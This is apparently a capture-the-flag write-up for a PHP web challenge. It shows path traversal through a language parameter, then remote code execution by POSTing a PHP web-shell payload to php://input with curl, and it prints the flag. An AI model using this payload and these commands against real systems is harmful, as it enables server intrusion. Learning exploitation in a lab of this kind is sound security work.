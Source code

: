 # Streamlined Democracy - web

## Challenge

Before you begin your voting, review our online guide and reach out if you have any questions. Your input is very important to us!

## Solve

Viewing the webpage provided we can see there is an option to toggle language in the top right corner:

<img width="902" height="569" alt="s1" src="https://github.com/user-attachments/assets/d1817fd6-705c-4a15-ade2-e886133bc3f7" />


When we select French, a `lang` parameter appears in the URL and is set to `fr.php`. It turns out path traversal is possible using this parameter:

<img width="915" height="506" alt="streamlined" src="https://github.com/user-attachments/assets/674850f5-d513-46c3-9a87-4bd343f8c117" />


After much exploring of the filesystem, it appears that we aren't going to be able to find the flag by checking usual locations with generic flag names like `flag.txt`, `flag.php`, `flag` etc. Doing some research led to [this article](https://medium.com/@zoningxtr/from-lfi-to-rce-via-php-input-the-complete-beginner-friendly-guide-e38e79924521) - if getting RCE is possible, we would be able to more effectively explore the filesystem. The use of the PHP I/O stream `input://` strongly aligned with the challenge name and description and we could soon get a solve:

- First confirm we can execute commands with:
  
```bash
curl -X POST -d "<?php system($_GET['cmd']); ?>" \
"http://3.105.27.130:8001/?lang=php://input&cmd=whoami"
```

- `php://input` directs the application to read the raw body of a POST request as a stream. When combined with `include()` in the source - 
    ```php
    $lang = include($language);
    ```
    POST data can be executed as code.
- We send the POST request with the data as PHP code: `"<?php system($_GET['cmd']); ?>"`
  - php `system()` runs local shell commands on the web server
- Then set the `cmd` parameter to whatever we like in the query string

<img width="468" height="85" alt="sd" src="https://github.com/user-attachments/assets/fc27b3d3-8d70-41dc-8a0c-c0cbd7c41a21" />


- Then find the location of the flag with:

```bash
curl -X POST -d '<?php system($_GET["cmd"]); ?>' \
"http://3.105.27.130:8001/?lang=php://input&cmd=ls+/"
```

<img width="459" height="132" alt="sd2" src="https://github.com/user-attachments/assets/53f5855a-744f-4d2d-a331-58ab50ab7be0" />


- Then read the flag directly in browser with `lang=/MXypSYzPptJ3_flag.txt`:

<img width="624" height="111" alt="sd3" src="https://github.com/user-attachments/assets/055592d5-dd8b-452b-9a75-23df52403925" />


`secedu{pHp_wr@Pp3rs_w1LL_n3veR_d!e}`
